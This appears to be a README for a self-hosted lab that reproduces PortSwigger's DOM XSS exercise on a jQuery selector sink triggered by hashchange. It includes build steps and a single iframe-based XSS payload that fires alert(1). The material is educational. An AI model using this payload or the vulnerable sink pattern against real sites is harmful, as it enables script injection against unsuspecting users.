 # DOM XSS in jQuery selector sink using a hashchange event

## SYNOPSIS
-  Site has 9 li elements 
-  You can jump to different li elements by adding an anchor link at the end of the url ```htttp://localhost:8085/#list1```
-   The jquery selector will wait for a hashchange event to occur which enables the jump to the corresponding list

## PAYLOAD
- ```<iframe src="https://ac731fc31e7e5a3fc02905c6001900c5.web-security-academy.net#" onload="this.src+='<img src=1 onerror=alert(1)>'">`` via server
- I STILL NEED SOME CLARIFICATION ON HOW THIS WORKS

## How to:
- Run build_docker
- Use the payload above
- You should see an alert window

### NOTE
- Tested on both Safari and Chrome
- Only works on CHROME

#### Reference
DOM XSS in jQuery selector sink using a hashchange event \
https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event
